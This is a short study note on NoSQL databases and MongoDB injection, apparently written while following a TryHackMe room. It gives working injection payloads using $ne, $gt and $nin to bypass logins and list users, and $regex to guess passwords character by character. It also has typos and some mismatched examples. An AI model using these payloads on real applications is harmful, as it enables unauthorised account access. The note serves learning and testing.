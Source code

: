 #  NoSQL
## Introduction to NoSQL databases

NoSQL databases are non-relational meaning they do not store information in regular tabular manner. Key-value(An index and value stored at the indexed location), Graph(Data stored in graph structure), Document(have key-value elements with metadata), xml Databases are a subclass), Wide Column Store(tabular but irregular in width, from row to row). See [Wiki](https://en.wikipedia.org/wiki/NoSQL) further information. For [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection), or more basics of SQL see [[Introduction-to-SQL]]

## MongoDB
[MongoDB](https://www.mongodb.com/) is JSON-like, document store type NoSQL database. Its data is a JSON-like structure called a **Document**. Documents are stored in an associative array with an arbitrary number of fields. These can be store heirarchically called **Collections**. Collections are the equivalent of tables in relational databases; multiple collections are grouped in **databases**. 

I uses NoSQL queries, not SQL-like:
```nosql
['KEY' => 'VALUE']
['KEY' => 'VALUE', 'KEY' => 'VALUE']
['KEY' => ['$lt'=>'1337']]` # Logic can eb used to filter
```
Although keys in this instance can be strings, properties to which the value is some string relationed to it storage key: `["username" : "admin"]

#### MongoDB injection
Due NoSQL queries requiring nested associative arrays a NoSQL injection must be capable of injecting arrays into the application.

This will authenication bypass to the first user in the database:  
`user[$ne]=xxxx&pass[$ne]=yyyy` or `user[$gt]=xxxx&pass[$gt]=yyyy`  
query performed:  
`['username'=>['$ne'=>['yyyy'] ], 'password'=>['$ne'=>'yyyy']]`
 To get the nth users, create filter with $nin by specifying criteria where the desired documents have some field, not in a list of values:  
 `user[$nin][]=xxxx&pass[$ne]=yyyy`  
 The query performed:  
 `['username'=>['$nin'=>['admin'] ], 'password'=>['$ne'=>'00001111']]`
 Repeat by adding `&user[$nin][]=`
  
  For passwords `$regex` operator, with a regex the number in curly brackets the length of a wildcard password:  
  `user=admin&pass[$regex]=^.{7}$`
  Then to fuzz with another `[$regex]=^a......$`; if you login the first letter is `a` if error is not. 


## Reference
[TryHackMe](https://tryhackme.com/room/nosqlinjectiontutorial)
[Wiki](https://en.wikipedia.org/wiki/NoSQL)